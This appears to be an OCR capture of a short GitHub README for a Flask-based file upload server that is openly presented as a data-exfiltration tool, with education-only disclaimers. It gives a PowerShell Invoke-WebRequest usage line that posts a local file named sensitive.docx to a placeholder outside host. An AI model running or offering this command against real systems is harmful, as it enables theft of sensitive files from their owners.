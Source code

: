***For Education purpose only***

***USE AT YOUR OWN RISK***

::Data ex-filtration using PowerShell-Invoke-WebRequest::

This python flask based file upload server accepts the raw file data stream and allows to transfer the data out inside SSL wrapped HTTP POST.

Usage: Invoke-WebRequest -Method POST -URI "hXXps://<destination_dot_com>" -Infile "C:\sensitive.docx"









